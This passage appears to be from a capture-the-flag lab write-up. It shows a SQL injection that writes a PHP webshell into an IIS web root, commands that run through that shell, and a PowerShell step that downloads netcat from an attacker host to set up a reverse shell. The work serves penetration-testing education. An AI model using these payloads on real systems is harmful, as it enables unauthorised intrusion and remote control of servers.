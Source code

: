 - Let's try creating a webshell
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#mysql-commands
  - `productName=' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/shell.php'-- -`
  - First run returns an error, but second run says that the file exists

![](./images/12.png)

![](./images/13.png)

- And it works
```
└─$ curl -s http://10.10.10.167/shell.php?cmd=whoami                                  
nt authority\iusr
        2       3       4       5       6
                                              
```

- Let's get reverse shell
```
└─$ curl -s 'http://10.10.10.167/shell.php?cmd=powershell+wget+10.10.16.9/nc64.exe+-outfile+\programdata\nc.exe' 
        2       3       4       5       6
                                       
```
```
└─$ curl -s 'http://10.10.10.167/shell.php?cmd=dir+\programdata'                                                
 Volume in drive C has no label.
 Volume Serial Number is DC9E-2AFB

 Directory of C:\programdata

11/01/2019  04:58 PM    <DIR>          Microsoft Visual Studio
10/01/2023  05:26 PM            45,272 nc.exe
10/24/2019  06:00 PM    <DIR>          Package Cache
10/01/2023  05:17 PM    <DIR>          regid.1991-06.com.microsoft
09/15/2018  10:19 AM    <DIR>          SoftwareDistribution
10/21/2019  05:31 PM    <DIR>          USOPrivate
10/21/2019  05:31 PM    <DIR>          USOShared
10/21/2019  05:30 PM    <DIR>          VMware
               1 File(s)         45,272 bytes
```